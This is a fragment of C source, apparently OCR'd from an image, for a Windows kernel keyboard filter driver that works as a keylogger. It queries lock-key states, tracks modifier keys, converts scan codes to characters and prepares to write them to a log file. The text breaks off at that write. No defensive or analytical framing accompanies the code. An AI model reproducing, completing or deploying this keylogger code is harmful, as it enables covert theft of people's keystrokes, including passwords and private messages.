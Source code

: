 ```c
        status = IoCallDriver(pzzz -> pakd, irp);
        if (status == STATUS_PENDING) {
            DbgPrint("In thread if statement");
            (VOID) KeWaitForSingleObject( & event, Suspended, KernelMode, FALSE, NULL);
        }
        status = irp -> IoStatus.Status;
        if (status == STATUS_SUCCESS) {
            DbgPrint("kData=%x pListEntry =%x status=%d LedFlags=%x", kData, pListEntry, status, indParams.LedFlags);
            caps = (indParams.LedFlags & KEYBOARD_CAPS_LOCK_ON) == 4;
            num = (indParams.LedFlags & KEYBOARD_NUM_LOCK_ON) == 2;
            scroll = (indParams.LedFlags & KEYBOARD_SCROLL_LOCK_ON) == 1;
            DbgPrint("caps=%d num=%d scroll=%d", caps, num, scroll);
        }
        switch (key) {
        case LSHIFT:
            if (kData -> KeyFlags == KEY_MAKE)
                pzzz -> kState.kSHIFT = 1;
            else
                pzzz -> kState.kSHIFT = 0;
            break;
        case RSHIFT:
            if (kData -> KeyFlags == KEY_MAKE)
                pzzz -> kState.kSHIFT = 1;
            else
                pzzz -> kState.kSHIFT = 0;
            break;
        case CTRL:
            if (kData -> KeyFlags == KEY_MAKE)
                pzzz -> kState.kCTRL = 1;
            else
                pzzz -> kState.kCTRL = 0;
            break;
        case ALT:
            if (kData -> KeyFlags == KEY_MAKE)
                pzzz -> kState.kALT = 1;
            else
                pzzz -> kState.kALT = 0;
            break;
        case SPACE:
            if ((pzzz -> kState.kALT != 1) && (kData -> KeyFlags == KEY_BREAK))
                keys[0] = 0x20;
            break;
        case ENTER:
            if ((pzzz -> kState.kALT != 1) && (kData -> KeyFlags == KEY_BREAK)) {
                keys[0] = 0x0D;
                keys[1] = 0x0A;
            }
            break;
        default:
            if ((pzzz -> kState.kALT != 1) && (pzzz -> kState.kCTRL != 1) && (kData -> KeyFlags == KEY_MAKE)) {
                if ((key >= 0x21) && (key <= 0x7E)) {
                    if (pzzz -> kState.kSHIFT == 1)
                        keys[0] = ExtendedKeyMap[kData -> KeyData];
                    else
                        keys[0] = key;
                }
            }
            break;
        }
        if (keys[0] != 0) {
            if (pzzz -> hLogFile != NULL) {
```